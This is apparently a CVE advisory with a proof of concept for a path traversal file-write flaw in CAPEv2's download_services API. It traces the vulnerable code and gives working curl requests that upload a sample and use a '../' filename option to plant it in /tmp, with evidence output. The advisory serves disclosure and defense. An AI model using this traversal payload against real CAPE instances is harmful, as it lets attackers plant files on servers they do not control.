



# CVE-2026-50929 — Path Traversal Arbitrary File Write in CAPEv2 download_services API

[CVE ID]
CVE-2026-50929

[PRODUCT]
kevoreilly/CAPEv2 — CAPE Sandbox, an open-source automated dynamic analysis (malware sandbox) platform with a Django web/API front end.

[VERSION]
commit `23d3a2cbd7cc5840ff5e54544e4c26186cdc6ed4` (master, pinned)

[PROBLEM TYPE]
Directory Traversal (`CWE-22`) — arbitrary file write primitive with attacker-supplied content (sample bytes). (The CNA record summarizes the impact as "obtain sensitive information"; the primitive demonstrated on this endpoint is the arbitrary-path file write documented below — a wording discrepancy to resolve with the CNA, not a claim of information disclosure.)

## Description

The Django REST endpoint `POST /apiv2/tasks/create/download_services/` (route `web/apiv2/urls.py:20`, handler `tasks_download_services`, `web/apiv2/views.py:2480`) accepts a form field `options` from which the handler extracts an attacker-controlled file name via `opt_filename = get_user_filename(options, custom)` (`web/apiv2/views.py:2493`; `get_user_filename` simply parses a `filename=`/`file_name=`/`name=` token out of the comma-separated option string, `lib/cuckoo/common/utils.py:744`). The name is passed to `download_from_3rdparty()`, which builds the storage path by raw string concatenation — `filename = f"{base_dir}/{opt_filename}"` at `lib/cuckoo/common/web_utils.py:630` — with no `basename()` normalization, no allowlist, and no check that the resolved path stays inside the freshly created `third_party*` temp `base_dir`. `../` sequences therefore escape the intended temp directory, and `download_file()` writes the sample bytes (retrieved by hash from local storage, i.e. content the attacker uploaded earlier) to the attacker-chosen absolute path via `_ = path_write_file(path, kwargs["content"])` (`lib/cuckoo/common/web_utils.py:873` → `Path(...).write_bytes`, `lib/cuckoo/common/path_utils.py:67-69`). The endpoint is additionally gated by the `[downloading_services]` config section, which upstream ships as `enabled = no` (`conf/default/api.conf.default:87-88`); where an operator has enabled it, the primitive is reachable with no interactive login (in the tested default API configuration requests carried no `Authorization` header/API token and were accepted).

Vulnerable code: https://github.com/kevoreilly/CAPEv2/blob/23d3a2cbd7cc5840ff5e54544e4c26186cdc6ed4/lib/cuckoo/common/web_utils.py#L626-L632

## Proof of Concept

### Victim setup

CAPE's web/API layer booted from a minimal image built from the pinned commit (python:3.11-slim + `requirements.txt`, `manage.py migrate && runserver 0.0.0.0:8000`); no analysis VMs are needed to reach the vulnerable handler. The image's `lib/` and `web/` trees were `diff -r`-verified **identical** to commit `23d3a2cbd7cc5840ff5e54544e4c26186cdc6ed4`. Precondition: the `[downloading_services]` gate is enabled via a reversible drop-in override (`/app/conf/api.conf.d/…` with `enabled = yes`) and the container restarted — upstream default is `enabled = no`.

```bash
# image: scdd-capev2:23d3a2c  (sha256:ddecba7a474acdf7442427ea019269126b8a2463211cf2056055403f83535594,
#        source diff-verified == commit 23d3a2cbd7cc5840ff5e54544e4c26186cdc6ed4)
docker run -d --name scdd_50929_capev2 -p 127.0.0.1:38320:8000 scdd-capev2:23d3a2c

# enable the gated endpoint (upstream default: enabled = no) and restart
docker exec scdd_50929_capev2 bash -lc 'mkdir -p /app/conf/api.conf.d && \
  printf "[downloading_services]\nenabled = yes\n\n[filecreate]\nenabled = yes\n" \
  > /app/conf/api.conf.d/scdd_50929_downloading_services.conf'
docker restart scdd_50929_capev2
```



### Attack steps

From any host that can reach the API (here `127.0.0.1:38320`), no `Authorization` header / API token:

```bash
# 1) upload a sample whose bytes we want planted (marker content)
printf 'CVE50929_MARKER_1790569260\n' > scdd_sample.bin
SHA=$(sha256sum scdd_sample.bin | awk '{print $1}')   # b46684fd19875f3b2560cb36037545050c3400f076b56a05f794e44ac241d947
curl -sS -X POST -F 'file=@scdd_sample.bin' http://127.0.0.1:38320/apiv2/tasks/create/file/
# -> {"error":false,"data":{"task_ids":[1],"message":"Task ID 1 has been submitted"}, ...}

# 2) trigger the traversal: filename=../../../../tmp/<name> escapes the third_party* base_dir
curl -sS -X POST \
  --data "hashes=${SHA}&options=filename%3D..%2F..%2F..%2F..%2Ftmp%2Fscdd_50929_capewrite_1790569260.bin&custom=&machine=" \
  http://127.0.0.1:38320/apiv2/tasks/create/download_services/
# -> {"error":false,"data":{"task_ids":[2],"message":"Task ID 2 has been submitted"},"errors":[]}
```



### Evidence

The file lands at `/tmp/scdd_50929_capewrite_1790569260.bin` — outside the intended `<tmppath>/cape-external/third_party*/` base directory — owned by the service user `cape`, and its SHA-256 equals that of the uploaded sample (arbitrary content, byte for byte):

```
$ docker exec scdd_50929_capev2 bash -lc "ls -la /tmp/scdd_50929_capewrite_1790569260.bin; \
    grep -nF CVE50929_MARKER_1790569260 /tmp/scdd_50929_capewrite_1790569260.bin; \
    sha256sum /tmp/scdd_50929_capewrite_1790569260.bin"
-rw-r--r-- 1 cape cape 27 Sep 28 04:21 /tmp/scdd_50929_capewrite_1790569260.bin
1:CVE50929_MARKER_1790569260
b46684fd19875f3b2560cb36037545050c3400f076b56a05f794e44ac241d947  /tmp/scdd_50929_capewrite_1790569260.bin
```

The file was re-verified in a follow-up session minutes later, then the container was removed. Full session: `evidence/transcript.txt`; excerpts: `evidence/key_evidence.txt`.



## Impact

A remote attacker with access to the CAPEv2 API obtains an **arbitrary-path, arbitrary-content file write** primitive as the service user (`cape`): the path is fully controlled via `options=filename=../../..` (any depth, any directory writable by the service user), and the written bytes are fully controlled because they are the contents of a sample the attacker first uploads through `POST /apiv2/tasks/create/file/`. What the PoC demonstrates is the **creation of a new file** at an attacker-chosen path outside the intended temp `base_dir` (verified byte-for-byte via SHA-256): the sink only writes when the target does not already exist (`if not path_exists(path): _ = path_write_file(path, kwargs["content"])`, `lib/cuckoo/common/web_utils.py:871-873`), so overwriting existing files is not part of this primitive (not demonstrated). Plausible, conditional consequences of planting new files at writable paths include dropping new configuration or code files that later-loading components may pick up, or adding forged files into analysis storage — these follow-ons were not demonstrated. Factual preconditions and boundaries:

- **Configuration precondition**: the `[downloading_services]` API section must be enabled — upstream default is `enabled = no`, so stock installs reject the request ("Download sample API is Disabled"); operators who enable third-party download services are affected.
- **Authentication**: no interactive web login is involved. Where the API is deployed with token authentication, possession of an API key (not a login session) suffices; in the tested default API configuration (`auth_only = no`, no `WEB_AUTHENTICATION`) both requests were accepted with no `Authorization` header at all.
- **Content constraint**: the written bytes must match a hash known to the instance, which the attacker arranges by first uploading the sample (giving full content control, verified byte-for-byte via SHA-256).
- **Permissions constraint**: writes are limited to paths writable by the CAPE web service user; the PoC deliberately writes only to `/tmp` with a marker payload.

## Occurrences

- `lib/cuckoo/common/web_utils.py:630` — `filename = f"{base_dir}/{opt_filename}"`: raw concatenation of attacker-controlled `opt_filename`, no sanitization/base-dir check (escape point)
- `lib/cuckoo/common/web_utils.py:609` — `download_from_3rdparty()`: creates `third_party*` temp `base_dir` the path escapes from; resolves content by hash from local storage
- `lib/cuckoo/common/web_utils.py:873` — `_ = path_write_file(path, kwargs["content"])` in `download_file()`: writes attacker bytes to the traversed path (sink)
- `lib/cuckoo/common/path_utils.py:67-69` — `path_write_file()` → `Path(...).write_bytes(content)`
- `web/apiv2/views.py:2493` — `opt_filename = get_user_filename(options, custom)` inside `tasks_download_services` (`web/apiv2/views.py:2480`): tainted parameter entry
- `web/apiv2/urls.py:20` — route `^tasks/create/download_services/$` exposing the handler
- `lib/cuckoo/common/utils.py:744` — `get_user_filename()`: parses `filename=`/`file_name=`/`name=` from user options/custom without any path validation
- `conf/default/api.conf.default:87-88` — `[downloading_services] enabled = no`: upstream default gate (vulnerability reachable only when operators enable it)

## References

- [CVE-2026-50929](https://www.cve.org/CVERecord?id=CVE-2026-50929)
- [kevoreilly/CAPEv2](https://github.com/kevoreilly/CAPEv2) — pinned commit [`23d3a2cbd7cc5840ff5e54544e4c26186cdc6ed4](https://github.com/kevoreilly/CAPEv2/tree/23d3a2cbd7cc5840ff5e54544e4c26186cdc6ed4)
- Vulnerable sink: [lib/cuckoo/common/web_utils.py#L630](https://github.com/kevoreilly/CAPEv2/blob/23d3a2cbd7cc5840ff5e54544e4c26186cdc6ed4/lib/cuckoo/common/web_utils.py#L630) and [#L873](https://github.com/kevoreilly/CAPEv2/blob/23d3a2cbd7cc5840ff5e54544e4c26186cdc6ed4/lib/cuckoo/common/web_utils.py#L873)
- Entry point: [web/apiv2/views.py#L2480-L2493](https://github.com/kevoreilly/CAPEv2/blob/23d3a2cbd7cc5840ff5e54544e4c26186cdc6ed4/web/apiv2/views.py#L2480-L2493)
